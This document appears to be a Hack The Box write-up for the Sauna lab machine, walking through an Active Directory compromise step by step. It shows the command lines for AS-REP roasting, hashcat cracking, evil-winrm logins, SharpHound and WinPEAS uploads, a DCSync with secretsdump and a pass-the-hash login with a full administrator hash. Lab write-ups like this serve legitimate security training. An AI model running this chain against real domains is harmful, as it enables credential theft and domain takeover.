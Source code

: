```yaml
---
title: HTB - Sauna
date: 2024-03-17
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, sauna, nmap, username-generator, username-anarchy, winpeas, getnpusers, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/sauna
published: true
image:
    path: machine_info.png
---
```


## HTB: Sauna

>[Sauna Box](https://app.hackthebox.com/machines/229)

<!-- ![](sauna_htb_diagram.png){: .normal} -->

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|Enumerated web server|[Nmap](https://github.com/nmap/nmap), [Mozilla](https://www.mozilla.org/en-GB/firefox/new/)|Obtained first and last names of potential users|
|2|Created custom username list|[Username-Generator](https://github.com/shroudri/username_generator), [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy)|-|
|3|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _fsmith_|
|4|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|5|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|6|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated potential privilege escalation paths|
|7|Executed privileged escalation path|[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)|Obtained credentials of _svc\_loanmgr_|
|8|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

## Detailed attack chain reproduction steps

Performed a TCP all-ports scan and noted that:
  * Port 80 is an IIS web server with the title _Egotistical Bank_
  * Port 5985 allows WinRM access

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Enumerated the web server and created a custom user list based on the names found (Figure 1):

![Figure 1: First and last names found on the site.](sauna_site_users.png?600)

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst
```

Performed an **ASREPRoasting** attack:

```bash
$ getnpusers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -no-pass -usersfile user_combined.lst | grep asrep
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 fsmith_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting

<SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678:Th<REDACTED>23
```

Logged in via WinRM using and compromised the _**user.txt**_ file:

```bash
# logging in the target
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

Collected domain information and generated visual representations of potential attack paths:

```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```

The below attack path (Figure 2) required SYSTEM-level access in order to be exploited:

![Figure 2: Potential attack path from fsmith user.](sauna_fsmith_attack_path.png)

A service account with DCSync rights was found (_**svc\_loanmgr**_) (Figure 3):

![Figure 3: A principal with DCSync rights over the domain.](sauna_dcsync_rights.png)

Performed further system enumeration and discovered _svc\_loanmgr_'s **clear text password**:

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mon<REDACTED>nd!

<SNIP>
```

Perfomed the **DCSync attack** and obtained the _**Administrator**_'s NTLMv2 hash:

```bash
$ secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad<REDACTED>4ee:823<REDACTED>98e:::
<SNIP>
```

Used _Administrator_'s hash to login via WinRM and compromised the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
f14<REDACTED>b8d5
```